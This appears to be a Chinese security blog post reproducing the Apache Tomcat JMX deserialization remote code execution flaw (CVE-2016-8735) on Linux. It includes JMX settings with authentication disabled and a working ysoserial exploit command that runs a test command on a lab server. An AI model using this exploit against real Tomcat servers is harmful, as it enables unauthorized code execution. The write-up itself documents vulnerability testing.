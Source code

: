 ```yaml
---
layout:     post
title:      "Apache Tomcat Remote Code Execution(CVE-2016-8735)"
subtitle:   "On Way"
date:       2016-12-08
author:     "Urahara"
header-img: "img/Tomcat.png"
header-mask: 0.3
tags:
    - Tomcat 
    - 反序列化
    - Remote Code Execution


---
```


### Versions Affected

```
Apache Tomcat 9.0.0.M1 to 9.0.0.M11
Apache Tomcat 8.5.0 to 8.5.6
Apache Tomcat 8.0.0.RC1 to 8.0.38
Apache Tomcat 7.0.0 to 7.0.72
Apache Tomcat 6.0.0 to 6.0.47
Earlier, unsupported versions may also be affected.
```

### Description

​	这个漏洞实质还是JMX反序列化漏洞，tomcat同样也用了JmxRemoteLifecycleListener这个监听器，但是tomcat在Oracle修复这个漏洞后自己没有及时更新，导致了反序列还依旧存在。网上搜了很多关于该漏洞的分析文章基本上都是0c0c0f牛在微信公众号里文章的转载或是变种，也基本都是在window系统上做的测试，所以也就想在linux也测试一下，也就有了这篇文章，大牛们勿喷呐= =、。

### Test Environment

> Linux Ubuntu server x86
>
> **Apache Tomcat** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/apache-tomcat-8.0.36.tar.gz)
>
> **catalina-jmx-remote** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/extras/catalina-jmx-remote.jar)  //添加至%TOMCAT_HOME%/lib/目录下
>
> **Groovy** (https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar)    //添加至 %TOMCAT_HOME%/lib/目录下
>
> **POC** (https://github.com/frohoff/ysoserial)

### Test Steps

1. 修改 tomcat server.xml 配置文件，添加以下内容：

   ```
   <Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
   ```

2. 修改 tomcat/bin 目录下 catalina.sh ，在# ----- Execute The Requested Command --------处添加以下内容：

   ```
   # ----- Execute The Requested Command -----------------------------------------
   CATALINA_OPTS="$CATALINA_OPTS
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false  //设为无账号密码认证
   -Djava.rmi.server.hostname=192.168.64.7"  //设置hostname为服务器ip地址，否则JMX无法进行远程访问
   ```

3. ./startup.sh启动tomcat服务

4. 执行POC

   ```
   java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.64.7 10001 Groovy1 "touch /tmp/tomcat_test"
   ```

   ![Tomcat-CVE-2016-8735](http://reverse-tcp.xyz/img/Tomcat-CVE-2016-8735.png)

   -----

   ​	关于linux配置tomcat运行远程监控（JMX）这里有个坑，网上搜到的绝大多数关于linux下tomcat jmx配置的文章，都使用了只修改catalina.sh为以下内容的方法，包括[Zabbix Wiki](https://www.zabbix.com/documentation/2.0/manual/config/items/itemtypes/jmx_monitoring)也是推荐的这种方式：

   ```
   CATALINA_OPTS="$CATALINA_OPTS 
   -Dcom.sun.management.jmxremote 
   -Dcom.sun.management.jmxremote.port=9999 
   -Dcom.sun.management.jmxremote.ssl=false 
   -Dcom.sun.management.jmxremote.authenticate=false 
   -Djava.rmi.server.hostname=192.168.64.7"
   ```

   ​	但就这种方式而言，需要注意的是 catalina.sh 中提供的默认变量名 JAVA_OPTS 和 CATALINA_OPTS。由于 JAVA_OPTS 所添加的参数会在 tomcat 开启和关闭时都运行，所以如果你把 `Dcom.sun.management.jmxremote.port=9999` 写在 JAVA_OPTS 中时，关闭服务的时候是会报错的，而且在该漏洞场景中攻击利用也是不会成功的，因此需要注意的是在平常渗透过程当中若在linux下遇到了该漏洞，利用不成功也是正常的。

   -----

   ### Referer

   [http://seclists.org/oss-sec/2016/q4/502](http://seclists.org/oss-sec/2016/q4/502)

   微信公众号：0c0c0f

   ​